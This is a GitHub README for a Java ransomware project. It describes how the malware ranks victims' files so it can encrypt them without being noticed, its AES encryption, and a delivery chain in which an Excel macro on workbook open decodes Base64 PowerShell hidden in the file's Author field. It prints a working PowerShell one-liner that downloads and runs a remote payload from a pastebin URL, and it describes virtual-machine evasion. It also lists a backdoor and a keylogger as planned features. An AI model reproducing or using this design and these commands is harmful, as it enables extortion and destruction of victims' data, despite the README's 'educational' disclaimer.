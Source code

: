 # JavaWare
### A Ransomware Built in Java

#### :pushpin: Disclaimer
> I built this purely for **educational purposes**. I take no responsibility and/or liability for how you choose to use any of the code available here. If executing the ransomware, please do not do so on your own machine as it will encrypt your files. Although I did include a function to decrypt, I am in no way responsible. 

JavaWare is a ransomware which will observe your system, learn which files you use, and then encrypts your machine. Once all files have been encrypted it will launch the payload screen. 

![alt text](https://raw.githubusercontent.com/kyralmozley/JavaWare/V1.0/Screenshots/Pay%20Load.png "Launch Screen")

### :crystal_ball: How does it learn which files I use? 
Maths. 

It uses a metric called *frecency*[1] (frequency + recency) to give each file a score. Using the idea of exponential decay, it ensures that most recently used files are scored higher, and as it observes your system over the course of a week, the more a file is accessed in this time, the higher the score. It then encrypts in such a way so that files that you are not likely to be using (i.e. low scored) first, this ensures that it can go as long as possible without being noticed, allowing it to encrypt the entire filesystem. 

<p align="center">
  <img src="http://latex.codecogs.com/gif.latex?\gamma=\sum_{i=1}^n+\beta_i" border="0"/>
 </p>
 <p align="center">
  <img src="http://latex.codecogs.com/gif.latex?\beta_i=p_i\cdot {e^{-a_i\lambda}}" border="0"/>
</p>
<p align="center">
<img src="http://latex.codecogs.com/gif.latex?\lambda=\frac{\ln 2}{30}" border="0"/>
</p>

Where <img src="http://latex.codecogs.com/gif.latex?p" border="0"/> is a recency weight, <img src="http://latex.codecogs.com/gif.latex?a" border="0"/> is a frequency ranking (the time since last modification in hours), and 
<img src="http://latex.codecogs.com/gif.latex?\lambda" border="0"/> is a constant


|Recency Bucket | Score |
|---------------|-------|
| Today         | 1.0   |
| Last 5 Days   | 0.9   |
| Last 10 Days  | 0.7   |
| Last 30 Days  | 0.4   |
| Last 90 Days  | 0.1   |
| > 90 Days     | 0.0   |



### :lock: How does it encrypt? 
AES 128 bit Encryption in CBC Mode (Counter Block Mode ) PKCS5 Padding <br/>
AES is a symmetric encryption algorithm which works on blocks of a fixed size (16 bytes for AES128). *Padding* (PKCS5) is used if the block is less than 16 bytes long. We split the stream into 16 byte blocks, which is encrypted using AES and the result is XORed with the next block in the stream before it is encrypted. For the first block, it XORs it with an *initialization vector*, a random 16 byte value. 

### :page_facing_up: What does it encrypt? 
*FileTypes.java* defines what type of files to encrypt, it includes common document types and so will avoid program files to ensure your system is still functional. Similarly, *AvoidedDir.java* includes directories to avoid in traversal, such as *Windows* and *Program Files*. 

### :computer: How does it launch? 
The Microsoft Excel file, *August Report.xlsm* contains a Macro which is run on Workbook Open. Encoded Base64 PowerShell code is hidden within this file under the 'Author' field[2]. So the macro calls a function which gets the author, decodes it, and then runs the shell. The PowerShell script is: 
```powershell
Powershell Invoke-Expression -Command  $([string]([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Invoke-WebRequest -Uri https://pastebin.com/raw/1538VQvN).content))))
```
This piece of code downloads another Base64 encoded powershell script, that checks whether or not the system is running in a virtual machine. If it is, it stops. This is a classic trick used by sophisticated malware such that analyst cannot then observe and reverse engineer the malware. 

Once it has established it is not in a VM, it then downloads code to check whether Java is currently installed in the system, if not, it downloads the latest version silently in the background. 

Lastly, it downloads and launches the jar. 

```powershell
$JAVA_VERSION = Get-ChildItem -Path "C:\Program Files\Java" | Select-String -Pattern 'jdk-'
$java = "C:\Program Files\Java\" + $JAVA_VERSION + "\bin\java.exe"
Start-Process -FilePath $java -ArgumentList '--module-path "C:\temp\javafx-sdk-11.0.2\lib" --add-modules=javafx.controls -jar temp\JavaWare.jar' -NoNewWindow
```

### :shipit: Future Tasks 
- [ ] Add a persistence method 
- [ ] Include 'fun' features such as a backdoor, keylogger etc.






### :notebook_with_decorative_cover: References: 
[\[1\]: Frecency Algortihm](https://developer.mozilla.org/en-US/docs/Mozilla/Tech/Places/Frecency_algorithm) <br/>
Gave me the idea to put my powershell code in the auhtor field, and other useful powershell commands.
[\[2\]: The Increased Use of PowerShell in Attacks - Symantec](https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf) <br/>
Gave me the idea to put my powershell code in the auhtor field, and other useful powershell commands.

